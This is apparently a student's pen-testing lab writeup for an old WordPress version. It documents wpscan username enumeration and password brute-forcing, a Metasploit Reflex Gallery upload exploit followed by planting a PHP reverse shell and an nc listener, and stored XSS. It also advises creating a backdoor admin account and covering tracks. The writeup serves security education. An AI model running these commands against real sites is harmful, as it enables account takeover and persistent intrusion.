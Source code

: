 # Project 7 - WordPress Pen Testing

Time spent: **8** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pen Testing Report

### 1. User Enumeration (CVE-2020-7918)

- [ ] Summary: An access control vulnerability arises when usernames are directly referenced. This can be leveraged by advesaries using compromised credentials     
  - Vulnerability types: Insecure direct object reference
  - Tested version: 4.2
  - Fixed version: NOT FIXED
  - Affected source code: (http://wpdistillery.vm/wp-login.php)
  - Tools/Resources Used:
 <br /> https://www.kali.org/get-kali/#kali-virtual-machines
 <br /> https://www.kali.org/tools/wpscan
 <br /> https://wpscan.com/
 <br /> https://nvd.nist.gov/vuln/detail/CVE-2020-7918
 <br /> password list: rockyou.txt
  - Techniques: BruteForce, Dictionary Attack, Credential Stuffing
  - Preventative Action: Password Complexity, Multi-Factor Authentication (MFA), Password Manager, Account Lockout Policy
  - Commands used:
  <br /> sudo gunzip /usr/share/wordlists/rockyou.txt.gz (extract and move for ease of use)
  <br /> wpscan -h (Display the Help)
  <br /> wpscan --url http://wpdistillery.vm (Reconnasissance)
  <br /> wpscan --url http://wpdistillery.vm --enumerate u (Finding Usernames)
  <br /> wpscan --url http://wpdistillery.vm -U ~/Desktop/wpusers.txt -P ~/Desktop/rockyou.txt (BruteForce Attack)
  


- [ ] Walkthrough:
<br /> Where's the Beef ?!?
<img src="user_enum1.gif">
<br /> A Successful Attack against all 5 User Accounts took 2min and 11 seconds !?!
<img src="BruteForce.gif">
<br /> The Damage... We got User credentials, PII, and our very own Administrative Account !?!
<img src="damage.gif">


- [ ] Steps to recreate:
<br /> - Try common usernames in the TARGET's login page, guess common passwords. Maybe we'll get some helpful info. Lets PLAN our attack.
<br /> - Kali is a great toolbox. Lets use our handy dandy tool wpSCAN to gather information on a TARGET. Perfome RECONNAISSANCE.
<br /> - After some poking and proding with WPSCAN lets use our collected INTEL to test our might. Commense Brute Force Attack!!! 
<br /> - Have I been pwned? Lets use the compromised credentials. GAIN ACCESS!!!
<br /> - Lets cause some damage...hmmm how about we just add a way to get back in. Add our own administrator ;). MAINTAIN ACCESS
<br /> - Considerations: COVER YOUR TRACKS!!!
  
### 2. Vulnerable Plugin Reflect Gallery (CVE-2015-4133)

- [ ] Summary: The Pluggin allows for File Uploading, however without proper filtering. Adversies can compromise a victims host via their directory with malicious php file uploads
  - Vulnerability types: Arbitrary File Upload
  - Tested in version: 3.1.3
  - Fixed in version: 3.1.4
  - Tools/Resources Used:
<br /> https://nvd.nist.gov/vuln/detail/CVE-2015-4133
<br /> https://www.kali.org/tools/metasploit-framework/
<br /> exploit/unix/webapp/wp_reflexgallery_file_upload
<br /> https://null-byte.wonderhowto.com/how-to/hack-like-pro-ultimate-command-cheat-sheet-for-metasploits-meterpreter-0149146/
<br /> https://pentestmonkey.net/tools/web-shells/php-reverse-shell
<br /> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
<br /> https://phoenixnap.com/kb/vim-commands-cheat-sheet
<br /> https://www.kali.org/tools/netcat/

 - Commands used:
  <br /> wpscan --url http://wpdistillery.vm (Reconnasissance)
  <br /> service postgresql start (for msf)
  <br /> msfdb init (for msf)
  <br /> msfconsole (msf)
  <br /> db status (for msf)
  <br /> search reflex (msf exploit)
  <br /> use 0 (select module)
  <br /> show options
  <br /> set RHOST wpdistillery.vm (target)
  <br /> set LHOST 192.168.33.101 (Kali VM)
  <br /> run
  <br /> shell
  <br /> whoami
  <br /> hostname
  <br /> pwd 
  <br /> ls
  <br /> ../
  <br /> pwd 
  <br /> edit /var/www/public/wp-content/themes/twentyfifteen/archive.php
  <br /> :%d
  <br /> :wq
  <br /> exit
  <br /> nc -nvlp 80
  
  
- [ ] Walkthrough:
<br /> Ole Reliable 
<img src="plugins.gif">
<br /> I've always wanted a Swiss Army Knife
<img src="swiss_army_knife.gif">
<br /> I'll be listening for the Door
<img src="backdoor.gif">

- [ ] Steps to recreate:
<br /> - Scan the Target for a weakness.
<br /> - Bring out the right tool for the job. Use Metasploit Framework to attempt an exploit.  
<br /> - Take aim and shoot. Are we in? Cool, leave a way to Maintain Access.Inject a reverse shell.
<br /> - Now, we wait and listen. 
<br /> - Knock Knock...You are now an agent of chaos.
<br />  Considerations: Privilege Escalation should be attempted 

### 3. Authenticated Stored Cross-Site Scripting (CVE-2015-5622)

- [ ] Summary: Cross-site scripting vulnerability allows remote authenticated users to inject arbitrary web script or HTML by leveraging the Author or Contributor. 
  - Vulnerability types:XSS
  - Tested in version: 4.2
  - Fixed in version: 4.2.3
  - Tools/Resoures Used:
<br /> https://github.com/thelinuxguy001/xss_cheatsheet
<br /> https://nvd.nist.gov/vuln/detail/CVE-2015-5622
- [ ] Walkthrough:
<br /> Whats the big deal? Oh noooooo!!! 
<img src="victim.gif">
<br /> You can't win em all
<img src="XXS.gif">
- [ ] Steps to recreate: 
- You gotta scan your target! WPSCAN quick.
- Read the INTEL...That means the References, dont be afraid of the rabbit hole.
- Chasing the white rabbit is hard, lets research!
- Lets give it a shot now, somethings bound to hit. 


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)
- 
GIFs created with  ...

[ScreenToGif](https://www.screentogif.com/) for Windows

## Notes

Setting up the pen testing environment was really challenging. I had a tough time getting windows 10 to play nice with vagrant and virtual box. I persevered, through trial and error. My saving grace was utilizing the snapshot feature when things went wrong. This was key in troubleshooting and documenting solutions along the way. My advice for my fellow colleagues and academics, don’t get discouraged, our failures are our greatest teachers.

Solutions for Common Isssues:

- https://gitforwindows.org/ (required for windows, install it)
- https://notepad-plus-plus.org/ (use to edit config.yml & hosts file as administrator)
- Create a restore point in Virtual Box once wpdistillery is up and running to revert ( Windows Powershell Failure to reboot vm issue, exploits not functioning issue)
- https://www.virtualbox.org/wiki/Download_Old_Builds_6_1 (for MacOS network adapter issues and KERNAL driver not installed)
- For MacOS check Security & Privacy: Allow apps downloaded from: SELECT app store and identified developers (make sure virtual box isnt being blocked)
- For MacOS in VirtualBoX settings disable Audio (virtual machine aborts issue)

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
